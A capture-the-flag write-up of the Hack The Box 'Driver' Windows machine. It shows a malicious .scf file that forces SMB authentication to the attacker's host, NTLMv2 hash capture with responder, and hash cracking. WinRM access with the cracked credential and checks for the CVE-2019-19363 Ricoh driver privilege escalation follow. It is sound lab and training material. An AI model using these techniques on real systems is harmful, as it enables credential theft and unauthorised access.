





+++
title = "Driver"
date = "2023-11-23"
description = "This is an easy Windows box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Windows

**Release date**: 2021-10-02

**Created by**: [MrR3boot](https://app.hackthebox.com/users/13531)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great practice security-wise, but it's a VM so it's alright. This way I won't have to prefix some commands with `sudo`, which gets cumbersome in the long run. Heck, it's hard enough to remember the flags for the commands without needing to know the privileges required to run them too!

I like to maintain consistency in my workflow for every box, so before starting with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box. I'll call it `workspace`, and it will be located at the root of my filesystem `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll run `httpsimpleserver` to create an HTTP server and `impacket-smbserver` to create an SMB share named `server`. This will make files in this folder available over the Internet, which will be especially useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory. This will come in handy once we get a foothold, for privilege escalation and for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the complexity of some exploits, and prefer a more manual approach when it's not too much hassle to really understand what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.5`, while the target machine's IP address will be `10.10.11.106`. The commands ran on my machine will be prefixed with `❯` for clarity, and if I ever need to transfer files or binaries to the target machine I'll always place them in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Remote enumeration

## Host discovery

Well, we already know the IP we are targeting, so this phase is actually empty!

## TCP port scanning

As usual, I'll initiate a port scan on Driver using a TCP SYN `nmap` scan to assess its attack surface.

```sh
❯ nmap -sS 10.10.11.106 -p-
```

```
<SNIP>
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman
<SNIP>
```

## Service fingerprinting

Following the port scan, let's gather more data about the services associated with the open ports we found.

```sh
❯ nmap -sS 10.10.11.106 -p 80,135,445,5985 -sV
```

```
<SNIP>
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
<SNIP>
```

Alright, so apparently Driver is running Windows, and the SMB service version suggests that it might be Windows 7.

We see that Driver hosts an IIS web server on port `80/tcp` and accepts SMB connections on port `445/tcp`. This is likely our entry point inside the box.

We could also use MSRPC on port `135/tcp` to run a bunch of queries through the machine exposed RPCs. But generally this is useful for querying information about AD, and we don't know whether Driver is linked to a domain or not yet, so this is pointless. Maybe we'll come back to it later.

More interestingly, the port `5985/tcp` is open, which means that we can connect to Driver over WinRM. Let's keep that in mind, it will be handy if we get credentials.

## Scripts

Let's run `nmap`'s default scripts on these services to see if they can find additional information.

```sh
❯ nmap -sS 10.10.11.106 -p 80,135,445,5985 -sC
```

```
<SNIP>
PORT     STATE SERVICE
80/tcp   open  http
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman

Host script results:
| smb2-time: 
|   date: 2023-11-28T04:23:26
|_  start_date: 2023-11-28T04:21:02
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
<SNIP>
```

These scripts reveal that the website on `80/tcp` doesn't have a title, and the `401` error code indicates that we can't access it without prior authentication.

The script `http-auth` also found an interesting HTTP header, we'll delve into this later.

Let's start by exploring SMB.

## SMB (port `445/tcp`)

### Anonymous login

We can try to connect to the SMB server as the `NULL` user. With a bit of luck, this will work!

```sh
❯ smbclient -L //10.10.11.106 -N
```

```
session setup failed: NT_STATUS_ACCESS_DENIED
```

Well, apparently it doesn't.

### Common credentials

We can try common credentails too, but to no avail.

### Known CVEs

Let's see if SMB is vulnerable to known CVEs.

```sh
❯ nmap -sS 10.10.11.106 -p 445 --script vuln
```

```
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: No accounts left to try
```

Well, looks like it isn't! Let's move on to the web server we identified earlier then.

## IIS (port `80/tcp`)

If we browse to `http://10.10.11.106/`, we are asked for credentials, as expected from the scripts we ran earlier.

The `http-auth` found a value associated with the `WWW-Authenticate` HTTP header... let's see it for ourselves.

### HTTP headers

Let's check out the HTTP response headers when we request the homepage.

```sh
❯ curl http://10.10.11.106/ -I
```

```
HTTP/1.1 401 Unauthorized
Content-Length: 0
Content-Type: text/html; charset=UTF-8
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.3.25
WWW-Authenticate: Basic realm="MFP Firmware Update Center. Please enter password for admin"
Date: Tue, 28 Nov 2023 04:22:09 GMT
```

The response reveals crucial details. The `Server` header leaks that the web server is running IIS version `10.0`, and the `X-Powered-By` header indicates the use of PHP version `7.3.25`.

Most significantly, there's a `WWW-Authenticate` header.

If we search online, we find [a documentation page](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/WWW-Authenticate) by Mozilla about this HTTP header. Apparently, it's used to define the [HTTP authentication](https://developer.mozilla.org/en-US/docs/Web/HTTP/Authentication) methods that might be used to gain access to a specific resource, in our case to gain access to this website.

The [Directives](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/WWW-Authenticate#directives) section describes in greater length the components of this header, and their meaning.

So in fact, the `WWW-Authenticate` we received means that the `Basic` authentication scheme is required, and the realm description suggests that the expected username is `admin`.

### Common credentials

Let's attempt to log in as `admin` using common passwords. After a bit of trial and error, we find out that `admin` is also the password!



It looks we got access to a website meant to 'conduct multi functional printers such as testing firmware updates, drivers etc'. No wonder this box is named Driver!

### Technology lookup

Before exploring the website, let's look up the technologies in use with the [Wappalyzer](https://www.wappalyzer.com/) extension.



So it confirms what we already discovered, but it also reveals that this website is using Bootstrap and libraries like jQuery.

### Exploration

If we browse the website, we see that we only have access to the 'Firmware Updates' page, comprised of a form.



It gives us the opportunity to select a printer model from a list, and to upload a firmware. The message informs us that the file is uploaded to a 'file share' and reviewed manually by a member of their team.

As this looks like the only functionality of the website, there must be a vulnerability here. We can try to upload any file, and it works: there doesn't seem to be any file validation mechanism in place, allowing us to upload anything.



However, we don't see anything appearing. The only difference (as we already found out earlier) is that we are redirected to the same page, but the `msg` GET parameter is set to `SUCCESS`.

### Site crawling

Let's crawl the website to see if I missed something.

```sh
❯ katana -u http://10.10.11.106/ -H "Authorization: Basic YWRtaW46YWRtaW4="
```

```
<SNIP>
[INF] Started standard crawling for => http://10.10.11.106/
http://10.10.11.106/
http://10.10.11.106/fw_up.php
http://10.10.11.106/index.php
```

No new web page here.

### Directory fuzzing

Let's see if we can find the directory where the files are uploaded.

```sh
❯ ffuf -v -c -u http://10.10.11.106/FUZZ -H "Authorization: Basic YWRtaW46YWRtaW4=" -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt -maxtime 60
```

```
<SNIP>
[Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 29ms]
| URL | http://10.10.11.106/images
| --> | http://10.10.11.106/images/
    * FUZZ: images

[Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 24ms]
| URL | http://10.10.11.106/Images
| --> | http://10.10.11.106/Images/
    * FUZZ: Images

[Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 25ms]
| URL | http://10.10.11.106/IMAGES
| --> | http://10.10.11.106/IMAGES/
    * FUZZ: IMAGES

[Status: 200, Size: 4279, Words: 523, Lines: 185, Duration: 26ms]
| URL | http://10.10.11.106/
    * FUZZ:
<SNIP>
```

What about files then?

```sh
❯ ffuf -v -c -u http://10.10.11.106/FUZZ -H "Authorization: Basic YWRtaW46YWRtaW4=" -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-files.txt -maxtime 60
```

```
<SNIP>
[Status: 200, Size: 4279, Words: 523, Lines: 185, Duration: 29ms]
| URL | http://10.10.11.106/index.php
    * FUZZ: index.php

[Status: 200, Size: 4279, Words: 523, Lines: 185, Duration: 29ms]
| URL | http://10.10.11.106/.
    * FUZZ: .

[Status: 200, Size: 4279, Words: 523, Lines: 185, Duration: 26ms]
| URL | http://10.10.11.106/Index.php
    * FUZZ: Index.php
<SNIP>
```

That's unsuccessful.

### Forced authentication

The web page where we can upload files mentions that the files are uploaded to a 'file share'. Since Driver is running Windows, this is likely a SMB server.

That's interesting, because SMB is a protocol used for communication, but also for authentication. There's a forced authentication vulnerability here: if we upload a custom `.scf` file pointing to a reference on our machine to the file share (assuming this is SMB), whenever a user connects to it, it will attempt to fetch that resource. And if we setup a fake SMB server, it will attempt to authenticate to it, so we could retrieve the user hash.

The goal is now to put in practice this plan.

Let's begin by creating a malicious `forced_authentication.scf` file:

```
[Shell]
Command=2
IconFile=\\10.10.14.5\doesNotExist
[Taskbar]
Command=ToggleDesktop
```

Then, I'll create a fake SMB server with `responder`.

```sh
❯ responder -I tun0 -A
```

```
<SNIP>

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

<SNIP>

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.5]
    Responder IPv6             [dead:beef:2::1003]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

<SNIP>

[+] Listening for events...
```

Now, we just need to upload the malicious `.scf` file to start the attack.

Once it's done, we should instantly receive a connection on our fake SMB server:

```
[SMB] NTLMv2-SSP Client   : 10.10.11.106
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:3e7dae92508ffaad:3AD9C490A56446AAE6ADE213A41DDE00:010100000000000080034743D31ADA01850D98E15E0CA22900000000020008003000590053005A0001001E00570049004E002D004E005600360035004A004E00430039004C003800540004003400570049004E002D004E005600360035004A004E00430039004C00380054002E003000590053005A002E004C004F00430041004C00030014003000590053005A002E004C004F00430041004C00050014003000590053005A002E004C004F00430041004C000700080080034743D31ADA0106000400020000000800300030000000000000000000000000200000046AFA9781C10455824496A63D627BC7AA4F1EAC847A2DD79EAD9D1E8141C8FA0A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E003200000000000000000000000000
```

Now we have `tony`'s password hash. Great!

### Hash cracking

Let's place the NTLMv2 hash we managed to retrieve into `/workspace/hash`. I'm going to use `hashcat` with the `rockyou` wordlist to attempt to crack it.

```sh
❯ hashcat -a 0 -m 5600 /workspace/hash /usr/share/wordlists/rockyou.txt -O
```

```
<SNIP>
TONY::DRIVER:3e7dae92508ffaad:3ad9c490a56446aae6ade213a41dde00:010100000000000080034743d31ada01850d98e15e0ca22900000000020008003000590053005a0001001e00570049004e002d004e005600360035004a004e00430039004c003800540004003400570049004e002d004e005600360035004a004e00430039004c00380054002e003000590053005a002e004c004f00430041004c00030014003000590053005a002e004c004f00430041004c00050014003000590053005a002e004c004f00430041004c000700080080034743d31ada0106000400020000000800300030000000000000000000000000200000046afa9781c10455824496a63d627bc7aa4f1eac847a2dd79ead9d1e8141c8fa0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003200000000000000000000000000:liltony
<SNIP>
```

`tony`:`liltony` should be valid credentials.

# Foothold

## WinRM (port `5985/tcp`)

Remember our port scanning ealier? We noticed that Driver was accepting connections over WinRM. Let's try these credentials with this protocol.

```sh
❯ evil-winrm -i 10.10.11.106 -u tony -p liltony
```

```
<SNIP>
*Evil-WinRM* PS C:\Users\tony\Documents>
```

It worked. Nice!

I don't need Powershell though, and I can't manage to downgrade to `cmd.exe`. Hence, I'll use `msfvenom` to obtain a reverse shell.

# Local enumeration

If we run `whoami`, we see that we got a foothold as `tony`.

## Version

Let's gather some information about the Windows version of Driver.

```cmd
C:\Users\tony\Documents> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v ProductName
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    ProductName    REG_SZ    Windows 10 Enterprise
```

Okay, so this is Windows 10 Entreprise!

```cmd
C:\Users\tony\Documents> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v CurrentBuildNumber
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    CurrentBuildNumber    REG_SZ    10240
```

And this is build `10240`.

This version of Windows is pretty recent, so we're unlikely to find any serious vulnerability here. But maybe there are missing hotfixes. We'll check that later, if we can't find another way to get `NT AUTHORITY\SYSTEM`.

## Architecture

What is Driver's architecture?

```cmd
C:\Users\tony\Documents> reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v PROCESSOR_ARCHITECTURE
```

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment
    PROCESSOR_ARCHITECTURE    REG_SZ    AMD64
```

So this system is using x64. This will be useful to know if we want to compile our own exploits.

## Windows Defender

Let's check if Windows Defender is enabled.

```cmd
C:\Users\tony\Documents> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender" /v ProductStatus
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender
    ProductStatus    REG_DWORD    0x0
```

It's disabled! That's great, it will make our life easier.

## AMSI

Let's check if there's any AMSI provider.

```cmd
C:\Users\tony\Documents> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\AMSI\Providers"
```

There's no output, so no AMSI provider here!

## Firewall

Let's see which Windows Firewall policies profiles are enabled.

```cmd
C:\Users\tony\Documents> reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy" /s /v EnableFirewall
```

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\DomainProfile
    EnableFirewall    REG_DWORD    0x1

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\PublicProfile
    EnableFirewall    REG_DWORD    0x1

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile
    EnableFirewall    REG_DWORD    0x1

<SNIP>
```

Okay, so all Firewall profiles are enabled. It shouldn't hinder our progression too much though: since we alreay managed to obtain a reverse shell, the protections should be really basic.

## NICs

Let's gather the list of connected NICs.

```cmd
C:\Users\tony\Documents> ipconfig /all
```

```
Windows IP Configuration

   Host Name . . . . . . . . . . . . : DRIVER
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : htb

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-41-B0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::19f(Preferred) 
   Lease Obtained. . . . . . . . . . : Saturday, December 23, 2023 9:25:04 PM
   Lease Expires . . . . . . . . . . : Saturday, December 23, 2023 10:25:03 PM
   IPv6 Address. . . . . . . . . . . : dead:beef::6c7c:32e6:c9a8:9e03(Preferred) 
   Temporary IPv6 Address. . . . . . : dead:beef::414d:e92:13a2:d603(Preferred) 
   Link-local IPv6 Address . . . . . : fe80::6c7c:32e6:c9a8:9e03%5(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.10.11.106(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:8050%5
                                       10.10.10.2
   DHCPv6 IAID . . . . . . . . . . . : 50352214
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2D-19-79-07-00-50-56-B9-41-B0
   DNS Servers . . . . . . . . . . . : 1.1.1.1
                                       8.8.8.8
   NetBIOS over Tcpip. . . . . . . . : Enabled
   Connection-specific DNS Suffix Search List :
                                       htb

Tunnel adapter isatap.{99C52957-7ED3-4943-91B6-CD52EF4D6AFC}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : htb
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
```

Looks like there's a single network.

## Local users

Let's enumerate all local users using `PowerView`.

```cmd
C:\Users\tony\Documents> powershell -command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Unrestricted; Import-Module C:\tmp\PowerView.ps1; Get-NetLocalGroupMember -GroupName Users | Where-Object { $_.MemberName -notmatch 'NT AUTHORITY' } | Select-Object GroupName, MemberName, SID | Format-Table"
```

```
GroupName MemberName  SID                                           
--------- ----------  ---                                           
Users     DRIVER\tony S-1-5-21-3114857038-1253923253-2196841645-1003
```

It looks like there's only us, `tony`.

## Local groups

Let's enumerate all local groups, once again using `PowerView`.

```cmd
C:\Users\tony\Documents> powershell -command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Unrestricted; Import-Module C:\tmp\PowerView.ps1; Get-NetLocalGroup | Select-Object GroupName, Comment | Format-Table | Out-String -Width 4096"
```

```
GroupName                           Comment                                                                                                                                                                                                       
---------                           -------                                                                                                                                                                                                       
Access Control Assistance Operators Members of this group can remotely query authorization attributes and permissions for resources on this computer.                                                                                             
Administrators                      Administrators have complete and unrestricted access to the computer/domain                                                                                                                                   
Backup Operators                    Backup Operators can override security restrictions for the sole purpose of backing up or restoring files                                                                                                     
Cryptographic Operators             Members are authorized to perform cryptographic operations.                                                                                                                                                   
Distributed COM Users               Members are allowed to launch, activate and use Distributed COM objects on this machine.                                                                                                                      
Event Log Readers                   Members of this group can read event logs from local machine                                                                                                                                                  
Guests                              Guests have the same access as members of the Users group by default, except for the Guest account which is further restricted                                                                                
Hyper-V Administrators              Members of this group have complete and unrestricted access to all features of Hyper-V.                                                                                                                       
IIS_IUSRS                           Built-in group used by Internet Information Services.                                                                                                                                                         
Network Configuration Operators      Members in this group can have some administrative privileges to manage configuration of networking features                                                                                                  
Performance Log Users               Members of this group may schedule logging of performance counters, enable trace providers, and collect event traces both locally and via remote access to this computer                                      
Performance Monitor Users           Members of this group can access performance counter data locally and remotely                                                                                                                                
Power Users                         Power Users are included for backwards compatibility and possess limited administrative powers                                                                                                                
Remote Desktop Users                Members in this group are granted the right to logon remotely                                                                                                                                                 
Remote Management Users             Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.
Replicator                          Supports file replication in a domain                                                                                                                                                                         
System Managed Accounts Group       Members of this group are managed by the system.                                                                                                                                                              
Users                               Users are prevented from making accidental or intentional system-wide changes and can run most applications
```

Looks classic.

## User account information

Let's gather more information about us.

```cmd
C:\Users\tony\Documents> net user tony
```

```
User name                    tony
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/7/2021 10:49:20 PM
Password expires             Never
Password changeable          9/7/2021 10:49:20 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   12/24/2023 4:20:52 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users
Global Group memberships     *None
<SNIP>
```

We don't belong to interesting groups.

## Home folder

If we check our home folder, we find the user flag on our Desktop. Let's retrieve its content.

```cmd
C:\Users\tony\Documents> type C:\Users\tony\Desktop\user.txt
```

```
d0014fd31a5b994575de0f2cfa659fa8
```

Apart from this file, there's nothing.

## Command history

Let's check the history of commands ran by `tony`.

```cmd
C:\Users\tony\Documents> type C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

```
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
<SNIP>
```

Apparently, `tony` added a `RICOH_PCL6` printer version `4.23`. This must be our way to escalate privileges, especially since the box is named `Driver`!

If we search online for vulnerabilities related to this printer and version, we find [this blog](https://www.pentagrid.ch/en/blog/local-privilege-escalation-in-ricoh-printer-drivers-for-windows-cve-2019-19363/) about [CVE-2019-19363](https://nvd.nist.gov/vuln/detail/CVE-2019-19363), and a corresponding [ExploitDB](https://www.exploit-db.com/) candidate: [Ricoh Driver - Privilege Escalation (Metasploit)](https://www.exploit-db.com/exploits/48036) ([CVE-2019-19363](https://nvd.nist.gov/vuln/detail/CVE-2019-19363)).

# Privilege escalation ([CVE-2019-19363](https://nvd.nist.gov/vuln/detail/CVE-2019-19363))

[CVE-2019-19363](https://nvd.nist.gov/vuln/detail/CVE-2019-19363) is a local privilege escalation vulnerability affecting several Ricoh printer drivers for Windows. The issue arises due to improperly set file permissions for DLLs that are installed when a printer is added to a Windows system. This allows any local user to overwrite DLLs with their own code.

The improperly protected DLLs are loaded by the Windows `PrintIsolationHost.exe`, a privileged process running as `NT AUTHORITY\SYSTEM`, whenever a new printer is created. If we overwrite one of the DLLs in the vulnerable driver folder at the right time, it will get executed with administrative privileges.

## Check

Let's follow the instructions detailed on [the blog](https://www.pentagrid.ch/en/blog/local-privilege-escalation-in-ricoh-printer-drivers-for-windows-cve-2019-19363/#technical-details) to check if Driver is vulnerable to this CVE.

First, we must find the Ricoh drivers installed on the machine.

```cmd
C:\Users\tony\Documents> dir "C:\ProgramData\RICOH_DRV" /a
```

```
<SNIP>
06/11/2021  06:21 AM    <DIR>          .
06/11/2021  06:21 AM    <DIR>          ..
06/11/2021  06:31 AM    <DIR>          RICOH PCL6 UniversalDriver V4.23
<SNIP>
```

Okay, so a driver named `RICOH PCL6 UniversalDriver V4.23` is installed. This is the same as in the blog.

Now, we can check the permissions for the DLLs in the `\_common\dlz\` subdirectory:

```cmd
C:\Users\tony\Documents> icacls "C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\*.dll"
```

```
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\borderline.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\colorbalance.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\headerfooter.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\jobhook.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\outputimage.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\overlaywatermark.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\popup.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\printercopyguardpreview.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\printerpreventioncopypatternpreview.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\secretnumberingpreview.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\watermark.dll Everyone:(F)
C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\watermarkpreview.dll Everyone:(F)

<SNIP>
```

We can confirm that we have full control over these DLLs. This means that this driver is vulnerable!

## Preparation

This exploit is not straightforward to exploit manually, so I'll use the `exploit/windows/local/ricoh_driver_privesc` Metasploit module.

